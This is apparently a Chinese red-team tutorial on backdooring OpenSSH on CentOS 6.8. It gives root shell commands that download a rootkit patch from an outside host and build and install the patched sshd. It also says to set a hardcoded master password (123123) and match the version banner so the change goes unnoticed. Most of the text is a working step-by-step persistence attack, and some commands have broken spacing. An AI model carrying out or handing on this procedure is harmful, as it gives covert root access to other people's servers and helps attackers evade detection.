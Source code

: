 ```bash
[root@localhost ~]#cat /etc/issue
CentOS release 6.8(Final)
Kernel r on an m
#1. SSH后门目前网上支持版本为5.9以下，本次用的是centos6.8自带的openssh5.3版本的
[root@localhost ~]#ssh -V
OpenSSH_5.3p1,OpenSSL 1.0.1e-fips 11 Feb 2013
# 2. 下载两个文件
[root@localhost ~]#wget http://down1.chinaunix.net/distfiles/openssh-5.9p1.tar.gz
[root@localhost ~]#
wgethttp://core.ipsecs.com/rootkit/patch-to-hack/0x06-openssh-5.9p1.patch.tar.gz
[root@localhost ~]#ls
0x06-openssh-5.9p1.patch.tar.gz  openssh-5.9p1.tar.gz

#3. 备份下配置文件
[root@localhost ~]#mv /etc/ssh/ssh_config /etc/ssh/ssh_config.old
[root@localhost ~]#mv /etc/ssh/sshd_config /etc/ssh/sshd_config.old
[root@localhost ~]#tar -zxvf openssh-5.9p1.tar.gz
[root@localhost ~]#tar -zxvf 0x06-openssh-5.9p1.patch.tar.gz
openssh-5.9p1.patch/
openssh-5.9p1.patch/LICENSE
openssh-5.9p1.patch/INSTALL
openssh-5.9p1.patch/README
openssh-5.9p1.patch/sshbd5.9p1.diff
openssh-5.9p1.patch/ssh_integrity_checker.sh
```

补丁如下：

![image-20200401221450737](/Users/dawson0x00/Desktop/红蓝对抗/Linux后门.assets/image-20200401221450737.png)

**设置后门登陆密码**

在includes.h文件中可以找到设置通用密码的地方：

![image-20200401221524135](/Users/dawson0x00/Desktop/红蓝对抗/Linux后门.assets/image-20200401221524135.png)

Version.h文件设置版本banners，该banners改成和原来系统一致

![image-20200401221545991](/Users/dawson0x00/Desktop/红蓝对抗/Linux后门.assets/image-20200401221545991.png)

```yum install zlib-devel opensslopenssl-devel zlib zlib-devel```

**编译并安装**

```bash
[root@localhost openssh-5.9p1]# yum install zlib-devel
[root@localhost openssh-5.9p1]# yum installopenssl  openssl-devel
[root@localhost openssh-5.9p1]# yum installgcc
[root@localhost openssh-5.9p1]# ./configure--prefix=/usr --sysconfdir=/etc/ssh
[root@localhost openssh-5.9p1]# make&& make install
```

然后就可使用上述设置的密码123123成功进行登陆
